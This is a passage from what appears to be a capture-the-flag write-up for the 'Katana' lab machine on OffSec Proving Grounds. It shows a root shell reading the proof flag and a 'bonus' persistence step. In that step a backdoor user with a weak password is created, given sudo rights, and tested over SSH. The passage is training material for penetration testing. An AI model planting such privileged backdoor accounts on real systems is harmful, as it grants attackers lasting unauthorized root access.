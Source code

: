 ```
root@katana:/var# cd /root
cd /root
root@katana:/root# ls
ls
proof.txt  root.txt
root@katana:/root# cat proof.txt
cat proof.txt
15688e97882b7bd7dee5fc122f112901
```

## Bonus (ssh persistence)

I set up a new user to come back through the front door with root privileges:

```
root@katana:/root# sudo useradd hackerman
sudo useradd hackerman
root@katana:/root# echo 'hackerman:hackerman' | sudo chpasswd
echo 'hackerman:hackerman' | sudo chpasswd
root@katana:/root# sudo usermod -aG sudo hackerman
sudo usermod -aG sudo hackerman
```

Testing:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana/exploit]
└─$ ssh hackerman@katana
hackerman@katana's password: 
Last login: Sun Mar 31 14:11:25 2024 from 192.168.45.201

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Could not chdir to home directory /home/hackerman: No such file or directory
$ sudo whoami
[sudo] password for hackerman: 
root
```

Success!